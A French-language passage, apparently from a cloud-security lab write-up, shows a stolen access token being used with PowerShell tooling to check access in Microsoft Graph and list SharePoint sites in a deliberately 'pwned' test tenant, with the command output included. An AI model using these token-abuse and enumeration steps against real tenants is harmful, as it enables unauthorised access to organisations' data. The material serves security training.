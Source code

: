 
on se connecte avec le token 

![Capture d’écran du 2025-01-08 09-55-31.png](Image/Capture_dcran_du_2025-01-08_09-55-31.png)

Lançons la commande Invoke-CheckAccess et on passe notre token en argument

```python
Invoke-CheckAccess -Tokens $tokens

@odata.context : https://graph.microsoft.com/v1.0/$metadata#users/$entity
businessPhones : {}
displayName : International Asset Management (Mega Big Tech MSSP Support)
givenName :
jobTitle :
mail : [support@international-am.com](mailto:support@international-am.com)
mobilePhone :
officeLocation :
preferredLanguage :
surname :
userPrincipalName : [support@international-am.com](mailto:support@international-am.com)
id : 4be78737-a40a-477f-9419-71ea104f644d
```

On peut faire bcp de choses avec le tokens comme par exemple lister les partages sur sharepoint

```python
Get-SharePointSiteURLs -Tokens $tokens
[*] Using the provided access tokens.
[*] Now getting SharePoint site URLs...
[*] Found a total of 11 site URLs.
Web URL: [https://iancloudpwned.sharepoint.com/FormServerTemplates/Forms/All](https://iancloudpwned.sharepoint.com/FormServerTemplates/Forms/All) Forms.aspx
Web URL: [https://iancloudpwned.sharepoint.com/Shared](https://iancloudpwned.sharepoint.com/Shared) Documents/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/FormServerTemplates/Forms/All](https://iancloudpwned.sharepoint.com/sites/allcompany/FormServerTemplates/Forms/All) Forms.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/Shared](https://iancloudpwned.sharepoint.com/sites/allcompany/Shared) Documents/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/SiteAssets/Forms/AllItems.aspx](https://iancloudpwned.sharepoint.com/sites/allcompany/SiteAssets/Forms/AllItems.aspx)
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/Style](https://iancloudpwned.sharepoint.com/sites/allcompany/Style) Library/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/FormServerTemplates/Forms/All](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/FormServerTemplates/Forms/All) Forms.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Shared](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Shared) Documents/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/SiteAssets/Forms/AllItems.aspx](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/SiteAssets/Forms/AllItems.aspx)
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Style](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Style) Library/Forms/AllItems.aspx
```